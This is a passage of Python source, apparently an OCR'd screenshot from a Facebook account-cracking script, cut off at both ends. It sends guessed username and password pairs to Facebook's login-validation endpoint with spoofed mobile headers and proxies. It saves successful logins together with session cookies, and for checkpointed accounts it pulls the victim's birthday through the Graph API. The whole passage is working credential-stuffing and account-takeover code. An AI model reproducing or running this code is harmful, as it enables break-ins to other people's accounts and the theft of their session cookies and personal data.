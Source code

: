                 heade={'Host': cebok,'cache-control': 'max-age=0','sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="98"','sec-ch-ua-mobile': '?1','sec-ch-ua-platform': '"Android"','upgrade-insecure-requests': '1','origin': 'https://'+cebok,'content-type': 'application/x-www-form-urlencoded','user-agent': ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9','x-requested-with': 'XMLHttpRequest','sec-fetch-site': 'same-origin','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','referer': 'https://'+cebok+'/login/device-based/password/?uid='+user+'&flow=login_no_pin&next=https%3A%2F%2Fm.facebook.com%2Fv2.3%2Fdialog%2Foauth%3Fapp_id%3D124024574287414%26cbt%3D1651658200978%26e2e%3D%257B%2522init%2522%253A1651658200978%257D%26sso%3Dchrome_custom_tab%26scope%3Demail%26state%3D%257B%25220_auth_logger_id%2522%253A%252268f15bae-23f8-463c-8660-5cf1226d97f6%2522%252C%25227_challenge%2522%253A%2522dahj28hqtietmhrgprpp%2522%252C%25223_method%2522%253A%2522custom_tab%2522%257D%26redirect_uri%3Dfbconnect%253A%252F%252Fcct.com.instathunder.app%26response_type%3Dtoken%252Csigned_request%252Cgraph_domain%252Cgranted_scopes%26return_scopes%3Dtrue%26ret%3Dlogin%26fbapp_pres%3D0%26logger_id%3D68f15bae-23f8-463c-8660-5cf1226d97f6%26tp%3Dunspecified&cancel_url=fbconnect%3A%2F%2Fcct.com.instathunder.app%3Ferror%3Daccess_denied%26error_code%3D200%26error_description%3DPermissions%2Berror%26error_reason%3Duser_denied%26state%3D%257B%25220_auth_logger_id%2522%253A%252268f15bae-23f8-463c-8660-5cf1226d97f6%2522%252C%25227_challenge%2522%253A%2522dahj28hqtietmhrgprpp%2522%252C%25223_method%2522%253A%2522custom_tab%2522%257D&display=touch&locale=id_ID&pl_dbl=0&refsrc=deprecated&_rdr','accept-encoding': 'gzip, deflate, br','accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7'}
                po = session.post('https://'+cebok+'/login/device-based/validate-password/?shbl=0&locale2=id_ID',data=dataa,cookies={'cookie': koki},headers=heade,allow_redirects=False,proxies=proxs)
                if "c_user" in session.cookies.get_dict():
                    cooz = session.cookies.get_dict()
                    coki = 'datr=' + cooz['datr'] + ';' + ('c_user=' + cooz['c_user']) + ';' + ('fr=' + cooz['fr']) + ';' + ('xs=' + cooz['xs'])
                    if "t" in Apk:
                        print('\r %sOK %s               \n Username : %s\n Password : %s%s'%(H,waktu,user,pw,N))
                        print(f'\r {H}Cookie   : {coki}\n')
                    elif "y" in Apk:
                        print(f'\r %sOK %s               \n Username : %s\n Password : %s%s'%(H,waktu,user,pw,N))
                        print(f'\r {H}Cookie   : {coki}')
                    wrt = '[SHYN-OK] %s • %s' % (user,pw)
                    ok.append(wrt)
                    cek_apk(session,coki)
                    open('results/OK-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt)
                    break
                elif 'checkpoint' in session.cookies.get_dict():
                    try:
                        tokenz = open('.token.txt').read()
                        cp_ttl = session.get(f'https://graph.facebook.com/{user}?fields=birthday&access_token={tokenz}').json()['birthday']
                        month, day, year = cp_ttl.split('/')
                        month = bulan_ttl[month]
                        print('\r %sSHYN-CP %s               \n Username : %s\n Password : %s\n Tanggal Lahir : %s %s %s%s\n'%(K,waktu,user,pw,day,month,year,N))
                        wrt = '[YUSE-CP] %s • %s • %s %s %s' % (user,pw,day,month,year)
                        cp.append(wrt)
                        open('results/CP-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt)
                        break
                    except (KeyError, IOError):
                        month = ''
                        day   = ''
                        year  = ''
                    except:pass
                    print('\r %sSHYN-CP %s               \n Username : %s\n Password : %s%s\n'%(K,waktu,user,pw,N))
                    wrt = '[SHYN-CP] %s • %s' % (user,pw)
                    cp.append(wrt)
                    open('results/CP-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt)
                    break
                else:
                    continue
                #time.sleep(31)
            loop+=1
        except requests.exceptions.ConnectionError: